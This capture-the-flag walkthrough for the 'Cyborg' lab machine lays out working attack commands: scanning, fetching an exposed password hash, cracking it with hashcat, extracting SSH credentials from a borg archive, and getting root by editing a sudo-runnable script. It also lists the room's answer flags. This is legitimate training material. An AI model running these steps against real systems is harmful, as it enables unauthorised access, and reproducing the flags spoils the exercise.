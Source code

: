 # Cyborg
## 17-07-2022
## level : easy

Machine IP : `10.10.55.202`

## Compromise the system

Scan With Nmap
```
nmap -sV 10.10.55.202
```
Directory Scan
```
gobuster dir -u http://10.10.55.202/ -w /usr/share/wordlists/dirb/common.txt -t 50 | tee directory.txt
```
We found two route in the server `/admin` and `/etc`

If we go to `/etc` we can find that there is a password hash available

Extracting the Password Hash
```
wget http://10.10.55.202/etc/squid/passwd
cat passwd | cut -d ":" -f 2 > hash_for_cat.txt
```

in the `hash_for_cat.txt` file we've got the hash and found out that it is of mode `1600` in hashcat


Use Hashcat for cracking the password
```
hashcat -m 1600 hash_for_cat.txt /usr/share/wordlists/rockyou.txt
```

We've got the password in plain text.
The credential is : `music_archive:squidward`

now lets down load the archive from `/admin` page
```
wget http://10.10.55.202/admin/archive.tar
```
Now if we unzip the tar file 
```
tar -xf archive.tar
```
Now if we see the content we can see that this is using borg

We can see the content of this repo using the following
```
mkdir temp_dir
borg mount home/field/dev/final_archive temp_dir

```
Now if we browse the `temp_dir` we can see that inside the `Documents` folder we've got a credential.

Login using that credentials `alex:S3cretP@s3`

```
ssh alex@10.10.55.202
```
After login we can get the user flag.

Now for privilege escalation we use
```
sudo -l
```
We have permission to run `/etc/mp3backups/backup.sh`

At first we will provide the write permission to the file and then add one line at the first of the file
```
sudo /bin/bash
```
Then just run the file 
```
sudo /etc/mp3backups/backup.sh
```

We got the root!

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Scan the machine, how many ports are open? | 2 |
| What service is running on port 22? | SSH |
| What service is running on port 80? | HTTP |
| What is the user.txt flag ? | flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3} |
| What is the root.txt flag ? | flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d} |









#    THE END 
